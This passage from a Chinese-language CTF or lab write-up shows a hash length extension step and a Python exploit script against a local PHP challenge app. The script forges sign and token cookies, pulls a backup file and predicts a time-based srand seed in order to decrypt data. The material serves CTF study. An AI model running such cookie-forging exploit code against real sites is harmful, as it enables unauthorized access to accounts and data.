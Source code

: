 </code></pre>
<p>将<code>token=</code> <br>
<code>login=501530457b49501056d8f994d12252ca</code></br></p>
<h3 id="step-3-利用hash拓展攻击没有必要">step 3 利用hash拓展攻击（没有必要）</h3>
<p>贴上脚本，hash生成还是以前的脚本</p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-comment">#coding:utf-8</span>
<span class="hljs-keyword">import</span> requests
<span class="hljs-keyword">import</span> time
<span class="hljs-keyword">import</span> re
url_register = <span class="hljs-string">'http://127.0.0.1/var/index.php?action=register'</span>
url_login = <span class="hljs-string">'http://127.0.0.1/var/index.php?action=login'</span>
url_manage = <span class="hljs-string">'http://127.0.0.1/var/index.php?action=manage'</span>
url_back = <span class="hljs-string">'http://127.0.0.1/var/backup_old.php'</span>
re1 = requests.session()
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">register</span><span class="hljs-params">(name,passwd)</span>:</span>
    data = {
    <span class="hljs-string">'user'</span>:name,
    <span class="hljs-string">'pwd'</span>:passwd
    }
    re1.post(url_register,data=data)

<span class="hljs-comment"># login('kk','kk')</span>
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">login</span><span class="hljs-params">(name,passwd)</span>:</span>
    data = {
    <span class="hljs-string">'user'</span>:name,
    <span class="hljs-string">'pwd'</span>:passwd
    }
    s = re1.post(url_login,data=data,allow_redirects=<span class="hljs-keyword">False</span>)
    <span class="hljs-comment"># print s.content</span>
    <span class="hljs-keyword">return</span>  s.cookies

token_fl = <span class="hljs-string">''</span>
<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">attack</span><span class="hljs-params">(token,sign)</span>:</span>
    <span class="hljs-keyword">global</span> token_fl

    cookies ={
    <span class="hljs-string">'sign'</span>:sign,
    <span class="hljs-string">'token'</span>:token,
    }

    s = re1.post(url_manage,data={<span class="hljs-string">'do'</span>:<span class="hljs-string">'decrypt'</span>},cookies=cookies)
    <span class="hljs-keyword">if</span> <span class="hljs-string">'Password'</span> <span class="hljs-keyword">not</span> <span class="hljs-keyword">in</span> s.content:
        token_fl = token


<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">test</span><span class="hljs-params">(token,sign)</span>:</span>
    re1.post(url_back)
    srand = int(time.time())
    r = re1.post(<span class="hljs-string">'http://127.0.0.1/var/backup.txt'</span>)
    encrypt = r.content
    r = re1.post(<span class="hljs-string">'http://127.0.0.1/2.php'</span>,data={<span class="hljs-string">'a'</span>:srand})
    st = r.content
    string = <span class="hljs-string">''</span>.join([hex(ord(i))[<span class="hljs-number">2</span>:] <span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> st])
    <span class="hljs-keyword">print</span> st,string
    cookies ={
    <span class="hljs-string">'sign'</span>:sign,
    <span class="hljs-string">'token'</span>:token,
    }